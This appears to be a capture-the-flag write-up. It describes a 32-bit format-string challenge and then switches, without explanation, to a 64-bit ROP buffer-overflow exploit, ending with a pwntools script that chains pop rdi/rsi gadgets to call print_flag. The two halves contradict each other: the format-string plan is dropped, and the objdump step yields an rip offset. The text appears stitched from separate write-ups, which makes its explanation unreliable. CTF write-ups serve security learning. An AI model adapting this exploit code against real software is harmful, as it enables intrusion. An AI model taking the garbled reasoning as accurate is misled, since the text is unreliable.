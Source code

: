 ![description](fms1.png)

# Gathering Information
the challenge provides a binary,it's source code and a netcat service.
- the binary is ELF 32bit mode.
- when reading the source code, we can see that the  binary reads 60 bytes from stdin, then prints the buffer and checks if the target_variable's value is different from 0. If true, it'll print the flag.
- the vulnerability is in printf(name),it's written without a format specifier, so it's a Format String vulnerability as the name of the challenge indicated it.
# Exploitation
- we have to chain a payload that overwrites the target_variable
- find the address of target_variable
- find the offset to the the first 4 bytes to overwrite
## find the address of target_variable
target_variable is a global variable, and since it's initialized , it's in the .data section.
to find it's address, we can use objdump.
![objdump](objdump.png)

we can see that the offset to the saved rip is : 72
## Address of print_flag
inside gdb : 
- p print_flag
the function is at : 0x40121f 
## Gadgets
using ropper, we can find the wanted gadgets : 
- ropper --file task7 --search "pop rdi" #0x0000000000401323
- ropper --file task7 --search "pop ret" #0x0000000000401321
## Payload
```python
from pwn import *
p = process("./task7")                                                                                                  
poprdi = 0x401323                                                                                                       
poprsi = 0x401321                                                                                                       
print_flag = 0x40121f                                                                                                   
payload = b""                                                                                                           
payload += b"A"*72                                                                                                      
payload += p64(poprdi)                                                                                                  
payload += p64(0xdeadbeef)                                                                                              
payload += p64(poprsi)                                                                                                  
payload += p64(0xc0febabe)                                                                                              
payload += p64(0)                                                                                                       
payload += p64(print_flag)                                                                                             
p.sendline(payload)                                                                                                     
p.interactive()
